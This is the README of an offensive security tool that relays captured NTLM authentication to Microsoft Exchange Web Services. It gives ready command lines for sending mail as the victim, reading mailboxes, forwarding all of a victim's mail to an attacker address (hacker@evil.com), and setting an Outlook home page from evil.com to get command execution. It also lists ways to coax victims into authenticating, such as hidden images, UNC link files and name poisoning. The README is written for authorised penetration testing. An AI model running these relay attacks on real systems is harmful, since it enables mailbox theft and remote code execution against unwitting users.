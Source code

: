 ntlmRelayToEWS
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------

**Exchange version**:
I've been testing this tool on an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
These SOAP requests *might/should* work on a more recent version, probably not on older versions. In case those SOAP requests don't work on another version of Exchange, it should be quite easy to create the SOAP request templates to match a newer version by using the Microsoft EWS Managed API in trace mode and capture the proper SOAP requests (*that's how I did it !*).

**EWS SOAP client**:
I would have loved to use a SOAP client in order to get a proper interface for automatically create all SOAP requests based on the Exchange WSDL. I tried using '**zeep**' but I banged my head on the wall to get it working with the Exchange WSDL as it requires to download external namespaces and as such requires an internet connection. Also, with 'zeep', the use of a custom transport session requires a `Requests.session` which is not the type of HTTP(S) session we have by default with the HTTPClientRelay: it would have required either to refactor the HTTPClientRelay to use '*Requests*' (/me lazy) or to simply get zeep to create the messages with `zeep.client.create_message()` and then send it with the relayed session we already have. Or is it because I'm a lame developper ? oh well...

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket). So follow their instructions to get a working version of Impacket.

Usage
----------------------
In its current version, the tool only implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get useful info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v`flag.

**SendMail**

Send an HTML formed e-mail to a list of destinations:
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**getFolder**

Retrieve all items from a predefined folder (*inbox, sent items, calendar, tasks*):
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox`

**forwardRule**

Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**

Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program be forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

How to get the victim to give you their credentials for relaying ?
----------------------

In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* from Alberto Solino [@agsolino](https://twitter.com/agsolino).

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*